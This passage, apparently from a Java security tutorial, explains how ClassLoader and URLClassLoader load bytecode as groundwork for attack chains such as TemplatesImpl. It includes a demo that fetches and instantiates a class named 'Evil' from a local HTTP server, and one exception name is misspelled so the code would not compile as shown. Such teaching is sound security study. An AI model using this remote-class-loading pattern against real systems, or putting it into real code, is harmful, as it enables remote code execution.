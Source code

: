 ```java
package URLClassLoaderDemo;

import java.net.URL;
import java.net.MalformedURLException;
import java.net.URLClassLoader;
import java.lang.ClassNotFoundException;
import java.lang.InstantiationException;
import java.lang.IllegalAccessException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 3:22 pm
 */
public class HttpServer {
    public static void main(String[] args) throws IllegalAccessException, InstantiationException, MalformedURLEXception, ClassNotFoundException {
        URL[] urls = {new URL("http://localhost:2222/")};
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        Class _class = loader.loadClass("Evil");
        _class.newInstance();
    }
}
```

<img src="./images/2.png" alt="">

# Use ClassLoader#defineClass to directly load bytecode files
> Whether it is loading a remote `class` or a local `class` or `jar` file, Java` experiences calls to the following three methods: `ClassLoader#loadClass-->ClassLoader#findClass->ClassLoader#defineClass`

<img src="./images/3.png" alt="">

```java
[1] The function of loadClass is to find from the loaded class cache, parent loader, etc. (parent delegation mechanism). If it is not found before, execute findClass
[2] The purpose of findClass is to load the bytecode of the class according to the URL specified. It may read the bytecode on the local system, jar package or remote http server and then hand it over to defineClass
[3] The function of defineClass is to process the bytecode passed in before and process it into a real Java class
```

> First compile the `.class` file of the malicious class, and then use `defineClass` to load it
> It should be noted that the class returned by `ClassLoader#defineClass` will not be initialized. Only when this object explicitly calls its constructor initialization code can it be executed, so you need to find a way to call the constructor of the returned class to execute the command; in actual scenarios, because the scope of the `defineClass` method is not open, attackers rarely use it directly, but it is the cornerstone of a commonly used attack chain `TemplatesImpl`
